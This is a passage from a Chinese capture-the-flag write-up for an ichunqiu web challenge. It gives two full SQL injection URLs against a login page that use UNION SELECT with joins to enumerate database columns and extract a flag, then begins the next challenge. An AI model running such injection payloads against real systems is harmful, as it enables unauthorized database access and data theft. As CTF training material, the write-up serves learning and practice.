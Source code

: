 ![](46.png)

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">查询列：</span><br><span class="line">http://aaa52ea761d944cea3b2d9a344d85f80920033eeae534f39.game.ichunqiu.com/l0gin.php?id=-1' union select * from (select group_concat(distinct(table_schema)) from information_schema.tables ) a join (select group_concat(column_name) from information_schema.columns where table_name='users' ) b %23</span><br></pre></td></tr></tbody></table>

![](47.png)

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">查询字段：</span><br><span class="line">http://aaa52ea761d944cea3b2d9a344d85f80920033eeae534f39.game.ichunqiu.com/l0gin.php?id=-1' union select * from (select group_concat(distinct(table_schema)) from information_schema.tables ) a join (select group_concat(flag_9c861b688330) from users ) b %23</span><br></pre></td></tr></tbody></table>

![](48.png)

然后就得到了flag

### [](#13-123 "13.123")13.123

> 题目内容：12341234，然后就解开了  
> 分值：50分 类型：Web

打开网址，查看网页源代码

